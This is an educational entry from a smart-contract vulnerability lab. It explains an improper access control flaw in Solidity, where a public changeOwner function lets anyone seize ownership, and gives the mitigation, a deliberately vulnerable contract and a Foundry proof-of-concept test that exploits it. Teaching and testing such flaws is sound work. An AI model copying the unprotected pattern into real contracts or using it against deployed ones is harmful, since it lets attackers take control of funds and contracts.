 # Visibility
[Visibility.sol](https://github.com/SunWeb3Sec/DeFiVulnLabs/blob/main/src/test/Visibility.sol)  
**Name:** Improper Access Control Vulnerability

**Description:**  
The default visibility of the function is Public.
If there is an unsafe visibility setting, the attacker can directly call the sensitive function in the smart contract.

The ownerGame contract has a changeOwner function that is intended to change the owner of the contract.
However, due to improper access control, this function is publicly accessible and
can be called by any external account or contract. As a result, an attacker can call this function
to change the ownership of the contract and take control.

**Impact:** the owner of the contract can be changed by anyone.

**Mitigation:**  
Use access control modifiers: Solidity provides modifiers, such as onlyOwner,
which can be used to restrict the access of functions

**OwnerGame** **Contract:**  
```
contract ownerGame {
    address public owner;

    constructor() {
        owner = msg.sender;
    }

    // wrong visibility of changeOwner function should be onlyOwner
    function changeOwner(address _new) public {
        owner = _new;
    }
}
```
****How to Test:****

forge test --contracts src/test/Visibility.sol-vvvv  
```
// This function tests the visibility of the functions in the ownerGameContract.
function testVisibility() public {
    // A new instance of the ownerGameContract is created.
    ownerGameContract = new ownerGame();

    // The current owner of the ownerGameContract is logged.
    console.log("Before exploiting, owner of ownerGame:", ownerGameContract.owner());

    // The changeOwner function of the ownerGameContract is called to change the owner to the sender of this function.
    ownerGameContract.changeOwner(msg.sender);

    // The new owner of the ownerGameContract is logged, which should now be the sender of this function.
    console.log("After exploiting, owner of ownerGame:", ownerGameContract.owner());

    // A message indicating the exploit is complete is logged.
    console.log("Exploit completed");
}
```
Red box: owne changed.
![Alt text](image-14.png)